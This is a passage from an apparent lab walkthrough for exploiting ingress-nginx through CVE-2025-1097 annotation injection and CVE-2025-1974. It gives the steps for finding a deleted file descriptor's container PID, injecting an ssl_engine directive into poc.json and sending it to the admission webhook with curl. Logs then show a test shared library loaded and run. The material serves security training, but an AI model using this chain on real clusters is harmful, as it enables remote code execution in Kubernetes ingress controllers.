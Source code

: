      # lrwx------ 1 statd 82 64 Mar 30 04:58 96 -> /tmp/nginx/client-body/0000000001 (deleted)
      ```
    - **Map the OS PID to the container PID**:
      ```bash
      cat /proc/903/status | grep NSpid
      # Example output:
      #
      # NSpid:  903   46
      ```
      The OS PID is `903`, and the container PID is `46`.

1. With the PID and FD known, you will trigger **CVE-2025-1097** (auth-tls-match-cn Annotation Injection) by simulating a malicious Admission Webhook request that tricks ingress-nginx into **loading and running** (**CVE-2025-1974**) your malicious shared library.

    - Open [`poc.json`](./poc.json) and locate the `nginx.ingress.kubernetes.io/auth-tls-match-cn` annotation.  
      Replace the PID and FD with the actual values from above, for example:
      ```
      ssl_engine /proc/46/fd/96;
      ```
    - **Send the request** to the ingress-nginx controller:
      ```bash
      curl https://localhost:8443/ -H "Content-Type: application/json" --data @poc.json -k -v
      ```
    - **Check the logs** on the ingress-nginx pod to confirm it loaded and executed your shared library:
      ```log
      I0330 06:47:32.522258      13 backend_ssl.go:67] "Adding secret to local store" name="ingress-nginx/tls-poc"
      W0330 06:47:32.522564      13 controller.go:1108] Error obtaining Endpoints for Service "/myservicea": no object matching key "/myservicea" in local store
      E0330 06:47:32.547547      13 main.go:96] "invalid ingress configuration" err=<

              -------------------------------------------------------------------------------
              Error: exit status 1
              ingress-nightmare lab: Engine invoked with ID: '/proc/46/fd/96' (expected: 'hello')
              ingress-nightmare lab: Hello World engine initialized successfully
              2025/03/30 06:47:32 [emerg] 470#470: "return" directive is not allowed here in /tmp/nginx/nginx-cfg116469926:443
              nginx: [emerg] "return" directive is not allowed here in /tmp/nginx/nginx-cfg116469926:443
              nginx: configuration file /tmp/nginx/nginx-cfg116469926 test failed
              ingress-nightmare lab: Process ID: 470, User ID: 101

              -------------------------------------------------------------------------------
      > ingress="default/"
      ```
